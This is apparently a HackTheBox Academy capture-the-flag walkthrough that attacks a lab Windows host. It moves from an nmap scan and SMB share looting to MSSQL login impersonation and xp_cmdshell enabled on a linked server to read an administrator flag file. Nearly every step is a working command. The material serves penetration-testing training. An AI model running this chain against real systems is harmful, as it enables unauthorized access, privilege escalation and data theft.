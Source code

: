 # Attacking Common Services - HARD

>HackTheBox Academy Module Assessment LAB walkthrough

## port Scan NMAP discovery

```
sudo nmap -p- 10.129.1.2
sudo nmap -p 135,445,1433,3389 -sCV -A -O 10.129.1.2
```

>open ports and services:

```
PORT     STATE SERVICE
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
```

## SMB File Shares

>SMB allows the simon user with blank password to read content on file server shares.  

```
smbclient -U 'simon' \\\\10.129.1.2\\Home

recurse
ls

cd \IT\Simon\>

get random.txt
cd \IT\Fiona\> 
get creds.txt
```

>Content of the file `creds.txt`, is the password for fiona, `48Ns72!bns74@S84NNNSl`.   

## Use discovered user FIONA  

>Remote desktop to windows user as FIONA.  

```
xfreerdp /v:10.129.1.2 /u:fiona /p:'48Ns72!bns74@S84NNNSl' /dynamic-resolution /cert:ignore
```

>Remote connect to Microsoft SQL service as Fiona user.  

```
sqsh -S 10.129.1.2 -U '.\\fiona' -P '48Ns72!bns74@S84NNNSl' -h
```  

>Enumerate Database and tables on MSSQL  

```
SELECT name FROM master.dbo.sysdatabases
go

use TestingDB
go

SELECT table_name FROM TestAppDB.INFORMATION_SCHEMA.TABLES
go
```  

## Identify Users that current SQL User can Impersonate  

```
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```


## Impersonate User SQL user account: John  

>As the returned value 0 indicates, we do not have the sysadmin role, but we can impersonate the sa user.
>Let us impersonate the user and execute the same commands.
>To impersonate a user, we can use the Transact-SQL statement EXECUTE AS LOGIN and set it to the user we want to impersonate.

```
EXECUTE AS LOGIN = 'john'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
go

```

## Identify linked Servers in MSSQL

>Identify linked Servers in MSSQL.  

```
SELECT srvname, isremote FROM sysservers
go
```

>WINSRV02\SQLEXPRESS
>LOCAL.TEST.LINKED.SRV  


## Execute Commands on Remote LINK SQL Servers  

>The `EXECUTE` statement can be used to send pass-through commands to linked servers. 
>We add our command between parenthesis and specify the linked server between square brackets `([ ])`.  

```
1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1;
2> go
```

>Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.

```
1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
2> go
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
2> go
```

## Exfiltrate Secret Data - Reading the flag  

>Submit the contents of the flag.txt file on the Administrator Desktop.  

```
EXECUTE("EXEC sp_configure 'show advanced options', 1;") AT [LOCAL.TEST.LINKED.SRV]
go
EXECUTE("RECONFIGURE") AT [LOCAL.TEST.LINKED.SRV]
go
EXECUTE("EXEC sp_configure 'xp_cmdshell', 1;") AT [LOCAL.TEST.LINKED.SRV]
go
EXECUTE('xp_cmdshell "type C:\Users\Administrator\Desktop\flag.txt >c:\users\fiona\desktop\x.txt"') AT [LOCAL.TEST.LINKED.SRV]
go
```  

>read content as current user `Fiona`.  

```
type c:\users\fiona\desktop\x.txt
```  

[Attacking Common Services - Hard](https://academy.hackthebox.com/module/116/section/1468)  

